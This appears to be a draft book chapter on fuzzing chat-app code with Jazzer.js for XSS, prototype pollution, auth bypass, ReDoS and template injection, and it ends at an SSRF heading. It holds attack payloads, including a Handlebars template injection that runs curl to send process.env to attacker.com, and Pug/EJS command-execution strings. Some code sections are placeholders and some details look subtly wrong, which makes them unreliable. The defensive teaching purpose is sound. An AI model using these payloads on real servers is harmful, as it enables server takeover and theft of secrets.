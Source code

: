 == JavaScript Service Reliability with Jazzer.js

_Applying libFuzzer techniques from Chapter 2 to discover bugs in your chat application code_

'''

Your libFuzzer expertise from Chapter 2 transfers directly to chat applications, but here's the twist: you're hunting bugs in code you wrote, not stress-testing JavaScript engines. When users type messages into your chat interface, those characters flow through authentication logic you implemented, message validation you designed, and rendering code you built. Each layer contains potential vulnerabilities waiting for systematic discovery.

*Your Chat Application Security Priority Matrix*

Before diving into fuzzing techniques, here's your vulnerability assessment framework based on chat application features you control:

*Critical Vulnerabilities (Fix immediately - 4 hours)*
Your user authentication and room access control logic present the highest security risk. Permission checking functions, user ID validation, and administrative privilege escalation represent attack vectors that compromise your entire chat system when exploited.

*High Impact Vulnerabilities (Address this week - 8 hours)* +
Message processing and content rendering create user-facing attack surfaces. Cross-site scripting vulnerabilities in message display, injection flaws in search functionality, and protocol abuse in WebSocket event handling affect every user interaction with your chat platform.

*Medium Priority Vulnerabilities (Monthly focus - 16 hours)*
Template processing, external content handling, and input validation systems represent significant attack vectors when processing user-controlled data through server-side components that enable code execution or network access.

This prioritization focuses exclusively on vulnerabilities in chat application code you wrote and control. You're not testing whether the JavaScript engine handles pathological JSON parsing--that's V8's responsibility. You're discovering authentication bypasses in your permission logic, injection flaws in your message processing, and code execution vulnerabilities in your template handling.

*Implementation Reality Check*: Most developers discover their first chat application vulnerability within thirty minutes of systematic testing. Plan four hours for initial harness development, eight hours for continuous integration setup, and two hours monthly for maintenance as your chat features evolve.

Jazzer.js brings systematic vulnerability discovery to your chat application logic using the same coverage-guided exploration you mastered in Chapter 2. Write harnesses targeting your authentication functions, message processing pipelines, and template handling code while Jazzer.js systematically explores input combinations that trigger security failures.

Picture your real-time chat system: Express.js routes handle user registration and login, middleware validate room access permissions, WebSocket handlers process message broadcasts, and template engines format notification emails. You implemented validation functions, designed authorization schemes, built message rendering logic, and created template processing systems.

Traditional testing validates expected user behavior. Users register with valid email addresses, send appropriate messages, join authorized chat rooms, and receive properly formatted notifications. Manual testing rarely explores the boundaries where your application logic fails: malformed authentication tokens, malicious message content, template injection payloads, or crafted requests that expose vulnerabilities.

What happens when user registration receives JSON payloads designed to corrupt object prototypes throughout your application? When does message content contain script tags targeting your rendering logic? When notification templates include code execution payloads? When external content requests target internal network resources?

Here's what makes chat application security testing immediately valuable: you're discovering exploitable vulnerabilities in features you built and can fix. Authentication bypasses the permission checking logic you wrote. Cross-site scripting flaws in the message rendering you implemented. Code execution vulnerabilities in the template processing you designed. Network access issues are affecting the content fetching that you architected.

=== *Message Content Injection: When Chat Features Become Attack Vectors*

Your chat application's core functionality revolves around users submitting message content that gets displayed to other users. This fundamental feature--accepting user input and rendering it for community consumption--creates conditions for injection attacks when your processing logic contains security gaps.

Consider your message posting workflow. Users type content into chat input fields, click send buttons, and expect their messages to appear in conversation threads. Your client-side JavaScript captures input text, packages it into WebSocket events or HTTP requests, and transmits it to your server. Your backend validates message content, stores it in databases, and broadcasts it to room participants. Finally, your frontend receives message data and renders it in chat interfaces for all users to see.

Each step in this workflow processes user-controlled content through code you wrote. Message submission handlers, content validation functions, database storage operations, broadcast distribution logic, and rendering components all handle potentially malicious input that could exploit vulnerabilities in your implementation.

The most obvious injection vector targets your message rendering logic. Users submit message content containing HTML script tags. Your backend stores this content without proper sanitization. When other users load the chat interface, your frontend renders the malicious content directly into the DOM using innerHTML operations or similar dynamic content insertion methods.

The attacking user gains access to authentication tokens, can perform actions on behalf of other users, steal sensitive information from chat conversations, or redirect users to malicious external sites. Your message feature becomes a vector for compromising every user in affected chat rooms.

But injection attacks extend far beyond basic cross-site scripting in message content. Your chat application likely includes search functionality for finding messages, users, or chat rooms. Search implementations often construct database queries incorporating user-provided search terms. When search logic concatenates user input directly into SQL queries or NoSQL commands without proper sanitization, attackers can inject malicious query syntax to access unauthorized data or manipulate database contents.

User registration and profile management features present additional injection opportunities. Username validation, email processing, and bio content handling all accept user input that gets processed through various application components. File upload functionality for avatar images processes metadata that could contain injection payloads targeting image processing libraries or file storage systems.

WebSocket message handling creates real-time injection vectors unique to chat applications. Your WebSocket event handlers process arbitrary event types and payloads submitted by connected clients. When event processing logic fails to validate event types or properly sanitize event data, attackers can submit crafted WebSocket messages to trigger unauthorized actions, escalate privileges, or bypass standard chat application security controls.

[PLACEHOLDER: CODE Message_Processing_Harness. Jazzer.js harnesses targeting chat message posting, content validation, search functionality, and WebSocket event handling. Test message content injection, username validation bypass, DOM manipulation vulnerabilities, and protocol abuse in chat application features. High value. Demonstrates systematic discovery of injection vulnerabilities in developer-written chat application logic.]

Traditional testing validates normal message content that users typically send: text messages, emoji reactions, image attachments, @mentions, and hashtags. Developers verify that appropriate content gets displayed correctly, notifications work properly, and chat features function as expected. Testing rarely explores malicious content scenarios: script tags in messages, SQL injection in search queries, protocol abuse in WebSocket events, or path traversal in file uploads.

Your chat application's message processing pipeline demonstrates how systematic testing discovers injection vulnerabilities across multiple attack vectors. Message content validation represents the most obvious target, but search functionality, user management features, file processing, and real-time communication all handle user input through potentially vulnerable code paths.

Detection strategies focus on monitoring how your chat application processes and renders user-controlled content. Track whether message content gets properly sanitized before storage and display. Verify that search functionality doesn't expose database errors or unauthorized data access. Confirm that WebSocket event handling validates event types and enforces proper authorization. Test whether injection payloads achieve their intended effects: script execution, data access, privilege escalation, or security control bypass.

The systematic exploration reveals injection vulnerabilities specific to chat application features rather than generic web application attack vectors. You're discovering whether your message posting logic, search implementation, user management features, and real-time communication components properly validate and sanitize user-controlled data.

With message content injection vulnerabilities identified and addressed, your attention turns to object manipulation attacks that can corrupt your application's fundamental behavior.

=== *Prototype Pollution: When User Profiles Corrupt Your Application*

Every JavaScript object inherits properties from Object.prototype. Your user profiles, message objects, and room configurations--they all share this fundamental prototype chain that attackers can manipulate through seemingly innocent input processed by trusted utility libraries.

*CVE-2024-21529: The dset Vulnerability That Affects Real Chat Applications*

Consider how your chat application handles user profile updates. Like thousands of other JavaScript applications, you probably use the popular `dset` utility package to manage nested configuration objects. At only 194 bytes and with 171 dependent packages in the npm registry, dset appears to be the perfect solution for setting deep object values safely.

Your user profile update endpoint accepts profile changes through your registration form: username, bio, avatar URL, and notification preferences. Your Express.js route uses dset to merge submitted data with existing profile objects--a completely standard practice that developers trust implicitly.

[,javascript]
----
import { dset } from 'dset';

// Standard chat application profile update logic
function updateUserProfile(userId, profileUpdates) {
    const userProfile = getUserProfile(userId);

    // Process each update using the trusted dset utility
    Object.entries(profileUpdates).forEach(([path, value]) => {
        dset(userProfile, path, value);
    });

    saveUserProfile(userId, userProfile);
}
----

This implementation looks secure and follows JavaScript best practices. You're using a well-maintained utility library specifically designed for safe deep object manipulation. The dset package promises "safely writing deep Object values" right in its description.

But CVE-2024-21529 reveals the hidden danger: dset versions before 3.1.4 contain a prototype pollution vulnerability that allows attackers to inject malicious properties into the global Object prototype chain through crafted input paths.

Now imagine someone submits this profile update through your standard registration interface:

[,json]
----
{
    "username": "alice",
    "bio": "Software developer interested in security",
    "preferences.notifications.email": true,
    "__proto__.isAdmin": true
}
----

Your profile updating logic processes this input exactly as designed. The username and bio fields update appropriately. The notification preferences get set using dset's dot-notation path handling. But that `__proto__.isAdmin` property doesn't just modify the user's profile--it corrupts the prototype chain for every object in your entire chat application.

Due to a vulnerability in dset's path handling logic, this seemingly innocuous profile update injects an `isAdmin` property into Object.prototype. Suddenly, every object in your chat application inherits this property with the value `true`.

Your authentication middleware checks `user.isAdmin` for administrative privileges. Room creation logic validates admin permissions using the same property. Message moderation features verify administrative access through identical checks. All these security controls now return `true` for every user because one profile update exploited the dset vulnerability to corrupt global object behavior.

[,javascript]
----
// Your authentication logic becomes compromised
function checkAdminPrivileges(user) {
    // This check now returns true for ALL users
    // after prototype pollution via dset vulnerability
    return user.isAdmin === true;
}

// Room management becomes compromised
function canCreatePrivateRoom(user) {
    // Every user can now create private rooms
    return user.isAdmin || user.role === 'moderator';
}
----

This isn't theoretical vulnerability research targeting obscure edge cases. Your chat application processes user profiles through registration endpoints, settings management interfaces, and social features exactly like this. Profile picture uploads include metadata objects that get processed through utilities like dset. Room preference updates merge user configurations with defaults using the same patterns. Each operation represents potential prototype pollution vectors that manual testing cannot discover systematically.

*Why Trusted Libraries Create Dangerous Vulnerabilities*

The dset vulnerability demonstrates why prototype pollution represents a significant threat to chat applications. Developers explicitly choose utilities like dset because they promise safety and security. The package description emphasizes "safely writing deep Object values," which creates false confidence in the security of the implementation.

CVE-2024-21529 received a high severity score of 8.8 precisely because it affects a widely-trusted utility that developers integrate without suspecting security implications. The vulnerability allows attackers to "inject malicious object property using the built-in Object property *proto*, which is recursively assigned to all the objects in the program."

Your chat application provides multiple attack vectors for exploiting this dset vulnerability:

* *User profile management*: Setting nested preferences and configuration options
* *Room configuration updates*: Modifying privacy settings and access controls
* *Message metadata processing*: Handling file upload metadata and content attributes
* *Social feature settings*: Managing friend lists and notification preferences

Each integration point where your chat application uses dset (or similar utilities) to process user-controlled data represents a potential prototype pollution attack vector that could compromise authentication logic across your entire platform.

*Systematic Discovery of Library-Based Prototype Pollution*

Traditional testing validates regular profile updates using expected input patterns: changing usernames, updating bio text, and modifying notification settings through UI controls. Manual testing never explores crafted JSON payloads containing `__proto__`, `constructor.prototype`, or other pollution vectors targeting utility library vulnerabilities.

[PLACEHOLDER: CODE dset_Prototype_Pollution_Harness. Jazzer.js specifically targets CVE-2024-21529 in the dset library usage within the chat application profile processing. Generates path strings containing *proto*, constructor, and prototype pollution vectors while testing object merge operations through dset function calls. Monitors the global Object.prototype for corruption after profile update operations. High value. Demonstrates systematic discovery of real-world prototype pollution vulnerabilities in trusted utility libraries used by chat applications.]

The systematic approach reveals both whether your chat application uses vulnerable versions of libraries like dset and whether your usage patterns create exploitable prototype pollution conditions. Generate pollution payloads targeting specific utility library vulnerabilities, then monitor how corruption propagates through your chat application architecture.

Detection requires monitoring global object state before and after user input processing operations that invoke utility libraries. Verify that prototype modifications don't persist beyond individual requests. Check whether clean objects retain expected behavior after profile updates complete. Confirm that authentication and authorization logic continue functioning correctly when processing subsequent requests.

*The Hidden Risk of Utility Library Dependencies*

The dset vulnerability illustrates a broader security challenge in modern JavaScript development: trusted utility libraries can introduce systemic vulnerabilities that affect every component of your chat application. When prototype pollution occurs through library code, the corruption affects not just the immediate operation but every subsequent object interaction throughout your application lifecycle.

This dependency-based vulnerability model makes prototype pollution particularly insidious in chat applications because:

. *Universal Impact*: Corruption from one user's profile update affects authentication logic for all subsequent users
. *Persistent Effects*: Prototype pollution can survive across multiple request cycles, depending on your application architecture
. *Trust Assumptions*: Developers integrate utilities like dset specifically because they trust the security implications
. *Hidden Attack Surface*: The vulnerability exists in code you didn't write, but your application depends on

Understanding prototype pollution through real vulnerabilities like CVE-2024-21529 provides essential context for discovering similar dependency-based security issues in your chat application's utility library usage patterns.

With prototype pollution vulnerabilities identified and addressed through systematic testing of both your code and your dependencies, attention turns to authentication logic that might contain type-based security bypasses.

=== *Authentication Logic Bypasses: When Permission Checks Fail*

Your chat application's security foundation rests on authentication and authorization logic you implemented to control user access to rooms, administrative functions, and sensitive operations. User login verification, room access control, message deletion permissions, and administrative privilege checking all depend on comparison operations and validation logic in code you wrote.

JavaScript's flexible type system creates opportunities for authentication bypasses when your permission checking logic uses loose equality comparisons or inadequate input validation. These vulnerabilities emerge from seemingly minor implementation details that have significant security implications for your entire chat platform.

Consider your room access control logic. Users request to join specific chat rooms by submitting room identifiers through your client interface. Your server-side authorization function retrieves the user's allowed rooms list and checks whether the requested room identifier appears in that list. This fundamental security control determines whether users can access private conversations, administrative channels, or restricted community spaces.

Your implementation compares the submitted room identifier with stored allowed room identifiers using JavaScript's equality operators. When your allowed rooms list contains numeric identifiers but user input arrives as string values, type coercion can bypass your authorization checks entirely. The comparison "123" == 123 returns accurately in JavaScript, potentially granting access to users who shouldn't be authorized for specific rooms.

This type of confusion vulnerability extends throughout your chat application's security controls. User authentication during login might compare user IDs using loose equality, allowing string representations to match numeric stored values inappropriately. Administrative privilege checking could use similar loose comparisons, enabling privilege escalation through type manipulation. Message ownership validation for editing or deletion might suffer from identical type-based bypass vulnerabilities.

Your administrative access control illustrates the severe impact of these seemingly minor implementation choices. Administrative users possess elevated privileges for user management, content moderation, and system configuration. Your admin checking logic compares the authenticated user's identifier with a list of administrative user IDs stored in your application configuration.

When an attacker submits requests with user identifiers crafted to exploit type coercion behavior, they might gain administrative access through comparison operations that don't enforce strict type matching. Administrative privileges enable account manipulation, content deletion, user banning, and access to sensitive chat application functionality that should remain restricted to legitimate administrators.

But authentication bypasses extend beyond simple type coercion scenarios. Your user identification logic might use parseInt() functions to process user IDs extracted from authentication tokens, URL parameters, or request headers. JavaScript's parseInt() function exhibits surprising behavior with malformed input that could enable authentication bypass attacks.

When parseInt() processes input like "123abc", it successfully parses the numeric prefix and returns 123 while ignoring the trailing garbage characters. Hexadecimal inputs like "0x7B" get parsed as base-16 numbers, potentially matching decimal user IDs inappropriately. Whitespace-padded inputs like " 123 " still parse successfully, bypassing validation logic that expects clean numeric values.

*Systematic Type Confusion Testing*

Traditional testing validates everyday authentication scenarios using expected data types and properly formatted input. Developers test user login with correct credentials, room access with valid identifiers, and administrative functions with legitimate admin accounts. Testing rarely explores type conversion boundaries where unexpected input types bypass security controls through automatic conversion or parsing edge cases.

[,javascript]
----
// Type confusion fuzzing approach
function fuzzAuthenticationCheck(data) {
    const user = JSON.parse(data);

    // Generate mixed data types for user ID
    const userIdVariants = [
        user.id,                    // Original value
        String(user.id),            // String conversion
        Number(user.id),            // Number conversion
        [user.id],                  // Array wrapper
        {valueOf: () => user.id},   // Object wrapper
        user.id + "",               // Implicit string conversion
        +user.id,                   // Implicit number conversion
        parseInt(user.id + "abc"),  // Parsing edge cases
        parseFloat(user.id + ".0"), // Float conversion
    ];

    userIdVariants.forEach(id => {
        const result = checkAdminPrivileges({...user, id: id});
        logAuthenticationResult(id, result);
    });
}
----

Your chat application's permission system provides multiple targets for authentication bypass testing. Room access control determines which users can join specific chat channels. Administrative privilege checking governs access to user management and content moderation features. Message ownership validation controls editing and deletion permissions. User identification logic throughout these systems processes various input formats that could trigger authentication bypasses.

The generation strategy targets type confusion scenarios while remaining focused on your chat application's specific authentication architecture. Test different data types in place of expected user identifiers: strings where numbers are expected, arrays where primitives are expected, and objects where simple values are expected. Focus particularly on values that coerce to expected results through JavaScript's type conversion rules.

[PLACEHOLDER: CODE Authentication_Bypass_Harness. Comprehensive harness targeting chat room access control, administrative privilege checking, and user identification logic. Generates mixed data types, malformed IDs, and type confusion scenarios specifically for chat application permission systems. High value. Demonstrates both comparison bypasses and parsing edge cases in developer-written chat application authentication code.]

Detection requires monitoring authentication decisions and flagging unexpected authorization successes that might indicate bypass vulnerabilities. Track when loose equality comparisons succeed between different data types in security-relevant operations. Verify that parsing operations handle malformed input appropriately without enabling unauthorized access. Confirm that authentication bypasses compromise chat application security rather than just violating type expectations.

The systematic exploration reveals authentication vulnerabilities specific to your chat application's permission model rather than generic authentication bypass techniques. You're testing whether your room access logic, administrative controls, and user identification functions properly validate user permissions under adversarial input conditions designed to exploit implementation weaknesses in code you wrote and control.

Understanding authentication bypass vulnerabilities in your chat application provides context for examining how input validation logic might exhibit blocking behavior under specific usage patterns.

=== *Input Validation Performance Traps: When Chat Features Hang*

Your chat application validates user input through regular expression patterns you designed to ensure usernames meet formatting requirements, email addresses conform to expected structures, and message content excludes inappropriate material. These validation functions protect your application from malformed data while providing user-friendly feedback about input requirements.

But regular expressions can exhibit exponential time complexity when processing specially crafted input strings that trigger catastrophic backtracking in pattern-matching algorithms. Attackers exploit this algorithmic vulnerability by submitting input designed to cause your validation functions to consume excessive CPU resources, effectively creating denial-of-service conditions through a single malformed request.

*CVE-2024-21538: The cross-spawn Vulnerability That Blocks Real Applications*

Your chat application likely uses the cross-spawn package for spawning child processes - perhaps for file processing, image manipulation, or external command execution. Cross-spawn is a fundamental Node.js utility with millions of weekly downloads, making it a trusted component in most JavaScript applications.

CVE-2024-21538 reveals a ReDoS vulnerability in cross-spawn versions before 7.0.5. The vulnerability exists in the argument escaping logic that processes command-line parameters. When your chat application processes user-controlled data through cross-spawn - such as filename handling, command parameter construction, or process argument validation - specially crafted input can trigger exponential backtracking.

Consider your file upload processing workflow:

[,javascript]
----
const { spawn } = require('cross-spawn');

// File processing in chat application
function processUploadedFile(filename, options) {
    // User controls filename through file upload
    // cross-spawn processes this through vulnerable regex
    const result = spawn('convert', ['-resize', '200x200', filename, options.output]);
    return result;
}
----

An attacker uploads a file with a malicious filename consisting of many backslashes followed by a special character:

[,javascript]
----
const maliciousFilename = "\\" + "\\".repeat(1000000) + "◎";
----

When cross-spawn processes this filename through its argument escaping logic, the vulnerable regular expression triggers catastrophic backtracking. Your file processing function blocks the event loop for thirty seconds or more, preventing your chat application from processing any other requests. User authentication hangs, message posting stops responding, WebSocket connections timeout, and your entire chat service becomes unresponsive because one malicious filename submission exploited the cross-spawn vulnerability.

Your username validation logic illustrates similar vulnerability patterns. User registration requires usernames matching specific patterns: alphanumeric characters, underscores, and hyphens in reasonable combinations. Your validation function implements this requirement using a regular expression that seems straightforward and appropriate for the intended purpose.

However, specific regex constructions contain nested quantifiers that create exponential search spaces when matching fails. An attacker submits a username consisting of many repeated characters followed by a symbol that prevents successful matching. Your regex engine exhaustively explores every possible way to match the pattern against the input string before ultimately concluding that no match exists.

This algorithmic complexity vulnerability affects various input validation scenarios throughout your chat application. Email validation during user registration, message content filtering for inappropriate material, search query processing for finding users or messages, and file name validation during avatar uploads all potentially contain regex patterns vulnerable to catastrophic backtracking attacks.

*Systematic ReDoS Discovery*

Traditional testing validates everyday input scenarios that complete quickly: realistic usernames, valid email addresses, appropriate message content, and reasonable search queries. Developers verify that validation functions accept correct input and reject malformed data appropriately. Testing doesn't systematically explore input explicitly designed to trigger worst-case algorithmic behavior in regex pattern matching.

[,javascript]
----
// ReDoS attack generation targeting cross-spawn vulnerability
function generateReDoSPayload() {
    // CVE-2024-21538 specific payload
    const backslashes = "\\".repeat(1000000);
    const trigger = "◎";
    return backslashes + trigger;
}

// Generic ReDoS patterns for validation testing
function generateValidationAttacks(fuzzer) {
    const patterns = [
        "(a+)+$",                    // Nested quantifiers
        "([a-zA-Z]+)*$",             // Alternation with repetition
        "(a|a)*$",                   // Alternation ambiguity
        "a+a+a+a+a+a+a+a+a+a+$",    // Many quantifiers
    ];

    return patterns.map(pattern =>
        fuzzer.generateWorstCaseInput(pattern)
    );
}
----

The generation strategy requires analyzing your chat application's validation patterns for algorithmic complexity vulnerabilities. Identify nested quantifiers, overlapping alternatives, and other regex constructions prone to catastrophic backtracking. Generate input strings that specifically target these pattern structures by creating scenarios that force the regex engine to explore maximum backtracking paths before failing.

[PLACEHOLDER: CODE ReDoS_Attack_Generator. Sophisticated harness targeting CVE-2024-21538 in cross-spawn usage and general regex validation patterns in chat applications. Generates inputs that trigger exponential backtracking in regex patterns based on pattern analysis of chat application validation logic. High value. Demonstrates systematic ReDoS discovery with immediate chat application performance impact.]

Detection focuses on execution time rather than functional correctness. Monitor how long validation operations take to complete and flag input that causes processing delays exceeding reasonable thresholds. Anything requiring more than one hundred milliseconds for simple input validation likely indicates algorithmic complexity problems that could be exploited for denial-of-service attacks.

Your chat application's validation logic demonstrates clear targets for performance testing. Username validation during registration ensures usernames conform to acceptable patterns. Message content filtering removes inappropriate material from chat conversations. Search query validation prevents injection while ensuring reasonable complexity. Room name validation enforces naming conventions for chat spaces--file processing through cross-spawn handles user uploads and content manipulation.

ReDoS vulnerabilities become particularly dangerous in chat applications because validation happens in the request processing path for user-facing features. When username validation hangs during registration, new users cannot create accounts. When message filtering blocks during content processing, chat conversations stop functioning. When search validation triggers exponential complexity, users cannot find messages or contacts. A single malicious input can render specific chat features completely unavailable for all users.

The systematic approach discovers whether validation patterns contain complexity vulnerabilities and exactly which input patterns trigger worst-case performance characteristics. This knowledge enables either fixing regex patterns to eliminate backtracking vulnerabilities or implementing timeout mechanisms to prevent validation operations from blocking chat application functionality.

With input validation secured against algorithmic complexity attacks, focus shifts to template processing systems that might contain code execution vulnerabilities.

=== *Template Injection Code Execution: When Chat Features Execute Arbitrary Code*

Chat applications frequently use template engines for dynamic content generation: email notifications with user data, webhook integrations formatting user messages, custom message formatting for bots and integrations, and administrative reporting with user-provided content. These template systems become dangerous when they process user-controlled input without proper sanitization.

Consider your notification email system. Users receive welcome messages when joining rooms, password reset instructions, and weekly digest emails with conversation highlights. Your email template system allows customization through user preference settings, enabling personalized greeting formats and content organization.

[,javascript]
----
const Handlebars = require('handlebars');

function sendWelcomeEmail(userData) {
    // User controls template content through profile settings
    const template = userData.emailTemplate || "Welcome {{name}} to {{roomName}}!";
    const compiled = Handlebars.compile(template);

    // Template injection occurs during compilation and execution
    const message = compiled(userData);
    sendEmail(userData.email, message);
}
----

This implementation appears reasonable for providing personalized user experiences. Users can customize their email format through profile settings, and the template engine handles variable substitution safely. The functionality works correctly for standard template patterns that users typically configure.

But template engines like Handlebars, Pug, and EJS contain powerful features for accessing JavaScript runtime context during template processing. When user input controls template content, attackers can inject template syntax that accesses system functions, executes arbitrary code, or manipulates server state.

An attacker submits this template through your profile customization interface:

[,javascript]
----
const maliciousTemplate = `
Welcome {{name}}!
{{#with (lookup this 'constructor')}}
  {{#with (lookup this 'constructor')}}
    {{#with (lookup this 'prototype')}}
      {{#with (lookup this 'constructor')}}
        {{this 'require("child_process").exec("curl attacker.com/steal?data=" + JSON.stringify(process.env))'}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
`;
----

When your notification system processes this template, the Handlebars engine executes the embedded JavaScript code on your server. The malicious template accesses the Node.js `require()` function through prototype chain traversal, imports the `child_process` module, and executes arbitrary system commands. The attacker gains complete control over your chat server through a seemingly innocent email preference setting.

Your webhook integration system presents another template injection vector. Chat applications often integrate with external services like Slack, Discord, or custom webhooks that format user messages according to destination service requirements. These integrations typically use template engines to transform chat messages into appropriate formats for external APIs.

[,javascript]
----
// Webhook integration with user-controlled formatting
function sendWebhookNotification(message, webhookConfig) {
    const template = webhookConfig.messageTemplate;
    const rendered = templateEngine.render(template, {
        user: message.author,
        content: message.content,
        timestamp: message.timestamp
    });

    sendToWebhook(webhookConfig.url, rendered);
}
----

When users can control webhook templates through administration interfaces or integration configuration, template injection enables code execution in the context of your chat server. Administrative users configuring webhook integrations might not realize they're providing input to template engines capable of executing arbitrary code.

*Systematic Template Injection Discovery*

Traditional testing validates template functionality using standard template patterns: variable substitution, conditional formatting, and loop constructs that work as intended. Developers verify that templates render user data correctly and produce expected output formats. Testing rarely explores template syntax designed to access runtime context or execute system functions.

[,javascript]
----
// Template injection payload generation
function generateTemplatePayloads(fuzzer) {
    const handlebarsPayloads = [
        "{{constructor.constructor('return process')().exit()}}",
        "{{#with process}}{{exit}}{{/with}}",
        "{{lookup (lookup this 'constructor') 'constructor'}}",
    ];

    const pugPayloads = [
        "#{process.exit()}",
        "#{global.process.mainModule.require('child_process').exec('id')}",
    ];

    const ejsPayloads = [
        "<%- process.exit() %>",
        "<%- global.process.mainModule.require('child_process').exec('whoami') %>",
    ];

    return fuzzer.mutateTemplateStructures([
        ...handlebarsPayloads,
        ...pugPayloads,
        ...ejsPayloads
    ]);
}
----

Your chat application's template processing provides multiple attack vectors for code execution testing. Email notification systems process user preference data through template engines. Webhook integrations format user messages according to configurable templates. Administrative reporting generates dynamic content with user-provided data. Bot integration systems might process user-defined response templates.

The generation strategy focuses on template syntax that accesses JavaScript runtime context while remaining focused on your chat application's specific template engine implementations. Test various context escape techniques: constructor chain climbing, prototype access, global object manipulation, and module system exploitation. Generate payloads targeting different template engines that your chat application might use.

[PLACEHOLDER: CODE Template_Injection_Harness. Comprehensive harness targeting template processing in chat email notifications, webhook integrations, and administrative reporting. Generates template injection payloads for Handlebars, Pug, EJS, and other engines while monitoring for code execution indicators. High value. Demonstrates systematic discovery of template injection vulnerabilities in chat application content processing.]

Detection requires monitoring template processing operations for code execution indicators rather than just syntax errors. Track system function access, module loading attempts, file system operations, and network requests initiated during template rendering. Verify that template processing doesn't enable unauthorized access to Node.js runtime capabilities. Confirm that template injection achieves code execution rather than just causing template syntax errors.

Template injection vulnerabilities become particularly dangerous in chat applications because template processing often occurs with elevated privileges in a server-side context. Code execution through template injection enables complete server compromise, data access, and infrastructure manipulation. A single malicious template can compromise your entire chat platform and associated infrastructure.

The systematic approach reveals whether your chat application's template processing systems properly isolate user input from code execution context. Understanding template injection provides essential context for examining how external content fetching might expose internal network resources.

=== *Server-Side Request Forgery (SSRF): When Chat Features Access Internal Networks*

